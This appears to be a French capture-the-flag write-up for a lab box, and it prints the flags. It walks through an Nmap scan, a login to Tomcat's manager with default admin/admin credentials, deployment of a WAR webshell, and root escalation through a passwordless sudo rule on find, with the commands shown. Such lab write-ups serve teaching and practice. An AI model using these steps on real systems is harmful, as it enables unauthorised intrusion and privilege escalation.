





- **Difficulté :** Moyenne
    
   
- **Flags :**
    
    - **User :** b457739f-aa29-e795-02a4-647e25b2a7ff
        
    - **Root :** 28bc8d09-1a64-4a4b-3ec2-5eedbff89857
        

---

## 1. Reconnaissance & Énumération

Le scan de ports **Nmap** révèle deux services web actifs :

- **Port 80 :** Serveur Apache standard.
    
- **Port 8080 :** Apache Tomcat version 9.0.96.
    

```bash
nmap -Pn -sC -sV 108.130.180.218
```

L'analyse se concentre sur Tomcat, car ce service expose souvent une interface de gestion (`/manager/html`) vulnérable aux identifiants par défaut.



---

## 2. Accès Initial (Exploitation Tomcat)

En testant les identifiants par défaut sur l'interface `/manager/html`, l'accès est accordé 
```
admin/admin
```



### Vecteur d'attaque : Déploiement de fichier WAR

Normalement, un reverse shell via `msfvenom` est privilégié. Cependant, pour contourner les contraintes de connectivité réseau (absence d'IP publique pour le `LHOST`), un **Webshell statique** a été utilisé.

1. Téléchargement d'un webshell au format `.war` (ex: `webshell.war`). [Ici](https://github.com/tghosth/webshelljar/blob/master/webshell.war)
    
2. Déploiement via l'interface **Tomcat Web Application Manager**.
    
3. Accès à l'interface de commande via le navigateur : `http://108.130.180.218:8080/webshell/`.
    



L'utilisateur obtenu est **hacker**. Le flag utilisateur se trouve généralement dans son répertoire personnel.



---

## 3. Escalade de Privilèges (PrivEsc)

L'énumération des privilèges sudo avec la commande `sudo -l` révèle une configuration critique :

```text
Matching Defaults entries for hacker on ip-10-0-0-62:
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for hacker:
    Defaults!/usr/sbin/visudo env_keep+="SUDO_EDITOR EDITOR VISUAL"

User hacker may run the following commands on ip-10-0-0-62:
    (ALL) NOPASSWD: /usr/bin/find
```

### Exploitation du binaire `find`

Le binaire `find` permet d'exécuter des commandes arbitraires via l'option `-exec`. Comme il peut être lancé avec `sudo` sans mot de passe, nous l'utilisons pour lire le flag root protégé.

**Commande d'exécution pour lire le flag :**

```bash
sudo /usr/bin/find /root -name "flag-root.txt" -exec cat {} \;
```

**Commande pour obtenir un shell root interactif (si supporté par le webshell) :**

```bash
sudo /usr/bin/find . -exec /bin/sh -p \; -quit
```



---

## 4. Capture du Root Flag

- **Emplacement :** `/root/flag-root.txt`
    
- **Contenu :** 28bc8d09-1a64-4a4b-3ec2-5eedbff89857
